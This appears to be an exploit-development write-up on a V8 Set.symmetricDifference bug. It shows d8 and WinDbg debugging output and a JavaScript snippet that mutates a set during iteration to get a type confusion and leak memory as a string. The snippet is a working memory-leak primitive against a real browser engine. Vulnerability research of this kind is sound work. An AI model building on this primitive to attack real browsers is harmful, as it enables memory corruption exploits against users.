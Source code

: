 Should check if the poc actually works.

Attaching to windbg and running:
```
d8.exe --allow-natives-syntax --harmony-set-methods poc.js
```

Nothing happened :|

Lets dump all the objects with a debugprint and see if we can see anything useful
```
d8> % DebugPrint(c);
DebugPrint: 000002570004B4ED: [JSSet]
 ...
 - table: 0x02570004b49d <OrderedHashSet[13]>
d8> % DebugPrint(a);
DebugPrint: 000002570004956D: [JSSet]
 ...
 - table: 0x02570004b44d <OrderedHashSet[13]>
 ...
d8> % DebugPrint(b);
DebugPrint: 000002570004B295: [JSSet]
 - table: 0x02570004b2a5 <OrderedHashSet[13]>
 ```

If we look at the c objects table entries we find a reference to a's table:
```
0:006> dd 0x02570004b49d-1
00000257`0004b49c  00001b9d 0000001a 0004b44d fffffffe
```

Playing around with the fields (or read the exploit) you can see that this maps to the `.size` call. Which means we have a type confusion primitive.

Next would be to see if we can add and remove items to leak something:
```js
let a = new Set();  
let b = new Set();  

for (let i = 0; i < 16; i++) { a.add(i); } // elements: 16, capacity: 16 

b.keys = () => {  
	a.add(16);
    return b[Symbol.iterator]();  
}  
  
r = a.symmetricDifference(b);  
% DebugPrint(r.size);
for (let i = 0; i < 8; i++) { r.delete(i); }
% DebugPrint(r.size);
```

The above should remove everything and read a random value as a string.
```js
DebugPrint: 0000022F000498AD: [OrderedHashSet]
 - FixedArray length: 83
 - elements: 17
 - deleted: 0
 - buckets: 16
 - capacity: 32
...
DebugPrint: 0000022F0004989D: [String]: u#a\x00\u1b9d\x00\xa6\x00"\x00\x00\x00 \x00\ufffe\uffff\ufffe\uffff\ufffe\uffff\x0a\x00 \x00\x1e\x00\x10\x00\x1a\x00\x1c\x00\x0c\x00\x16\x00\x18\x00\x06\x00\ufffe\uffff\x12\x00\ufffe\uffff\x00\x00\ufffe\uffff\x02\x00\ufffe\uffff\x04\x00\ufffe\uffff\x06\x00\ufffe\uffff\x08\x00\x00\x00\x0a\x00\x08\x00\x0c\x00\ufffe\uffff\x0e\x00\ufffe\uffff\x10\x00\x02\x00\x12\x00\ufffe\uffff\x14\x00\ufffe\uffff\x16\x00\ufffe\uffff\x18\x00\ufffe\uffff\x1a
Smi: 0x3 (3)
```

